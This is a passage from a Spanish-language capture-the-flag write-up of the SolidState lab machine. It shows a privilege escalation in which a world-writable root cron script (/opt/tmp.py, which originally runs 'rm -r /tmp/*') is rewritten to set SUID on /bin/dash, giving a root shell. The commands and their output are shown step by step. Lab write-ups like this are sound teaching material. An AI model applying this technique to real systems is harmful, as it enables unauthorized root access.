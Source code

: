 Vemos que se está ejecutando el archivo `/opt/tmp.py`, así que vamos a echarle un ojo:

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ cd /opt/
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -l
total 8
drwxr-xr-x 11 root root 4096 Apr 26  2021 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$
```

Vemos que el propietario es el usuario **root** y que el ejecutar el archivo, borra todo lo que se encuentre en `/tmp/`. Si vemos los permisos, tenemos privilegio de lectura, escritura y ejecución y como el usuario **root** ejecutar el archivo a en intervalos regualres, podemos modificar el contenido del script:

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py 
i#!/usr/bin/env python
import os
import sys
try:
     os.system('chmod 4755 /bin/dash')
except:
     sys.exit()

${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -l /bin/dash
-rwxr-xr-x 1 root root 124492 Jan 24  2017 /bin/dash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$
```

Esperamos un momento a que el usuario **root** ejecute el script y tenga permisos SUID la `/bin/dash` *Debian Almquist shell* (**Nota**: En caso de que no se obtenga el permiso SUID, se recomienda reinicar la máquina):

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -l /bin/dash
-rwsr-xr-x 1 root root 124492 Jan 24  2017 /bin/dash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$
```

Ya tenemos los permisos SUID en la `/bin/dash`, así que ejecutamos `dash` para acceder como **root**.

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ dash
# whoami
root
# 
```

Ya somo el usuario **root** y podemos visualizar la flag (root.txt).

